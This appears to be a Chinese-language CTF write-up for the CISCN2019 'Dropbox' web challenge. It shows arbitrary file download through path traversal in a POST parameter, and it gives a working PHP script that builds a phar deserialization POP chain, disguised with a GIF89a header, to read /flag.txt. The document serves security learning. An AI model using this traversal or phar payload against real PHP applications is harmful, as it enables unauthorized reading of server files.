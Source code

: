 # [CISCN2019 华北赛区 Day1 Web1]Dropbox

## 知识点

`phar反序列化`

`任意文件下载`

## 解题

首先注册账号后登录进来发现是个网盘，然后尝试上传文件，要求为`jpg`或者`png`,简单上传一个文件后可以`下载`和`删除`，下载的时候在`POST`时修改`filename`参数可以实现`任意文件下载`

![alt text](<img/[CISCN2019 华北赛区 Day1 Web1]Dropbox-1.png>)

但是无法读取`flag`，尝试读取源码看看，因为都有相互包含，我把所有已知的`php`文件都分别下载了下来，可以用`相对路径`，如`../../download.php`或者`绝对路径`,如`/var/www/html/download.php`，目录如图所示

![alt text](<img/[CISCN2019 华北赛区 Day1 Web1]Dropbox-2.png>)

这里我就不把全部代码列出来了，只把关键点列出来

首先看了`download.php`为什么不能直接读`flag`，发现被过滤

```php
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
}
```

且因为代码里有
```php
ini_set("open_basedir", getcwd() . ":/etc:/tmp");
```

执行后我们只可以访问`当前目录` `/etc` `/tmp`，因为提示说`flag`在根目录`/`,所以只能在没做限制的`delete.php`操作

这题可以`phar反序列化`是因为满足了`可以phar反序列化的三个条件`

1. `phar`文件要能够上传至服务器
2. 有可用的魔术方法为跳板
3. 文件操作函数的参数可控（即有那些特定的函数如本题的`file_get_contents`函数）
4. `/` `phar`等特殊字符没有被过滤

首先找利用`pop`链，首先找到需要利用的点，即`class.php`->`File类`->`close方法`

```php
class File() {
    public function close() {
        return file_get_contents($this->filename);
    }
}
```

然后在`class.php`->`FileList类`->`__call方法`发现传参后能调用`File->close()`

```php
class FileList{
   public function __call($func, $args) {
        array_push($this->funcs, $func);
        foreach ($this->files as $file) {
            $this->results[$file->name()][$func] = $file->$func();
        }
    }
}
```

当`$file`赋值为`File`类，且对`File`类的`$filename`赋值，`$func`设置为`close`时就可以读取需要的文件，然后我们还需要找最开始的能调用`FileList类`->`__call`方法的`魔法函数`，发现`User类`->`__destruct`中`$db`赋值为`FileList`实例即可，且可以作为`pop`链开始

```php
class User{
    public function __destruct() {
        $this->db->close();
    }
}
```

那么最终我们的`pop`链条为 `User::__destruct()` -> `FileList::__call()` -> `File::close()`,最后`FileList::__destruct()`会输出结果

构造`phar`

```php
<?php

class User {
    public $db;
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}

class File {
    public $filename;
}

@unlink("phar.phar");
$a = new User();
$a->db = new FileList();

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");       // GIF89a可删除，加在此处为了绕过文件头检测
$phar->setMetadata($a);
$phar->addFromString("exp.txt", "a");       // 添加要压缩的文件
$phar->stopBuffering();
```

![alt text](<img/[CISCN2019 华北赛区 Day1 Web1]Dropbox-3.png>)

将`phar.phar`改名为`phar.jpg`，最后使用`phar://`伪协议加载即可，如下图所示

![alt text](<img/[CISCN2019 华北赛区 Day1 Web1]Dropbox-4.png>)
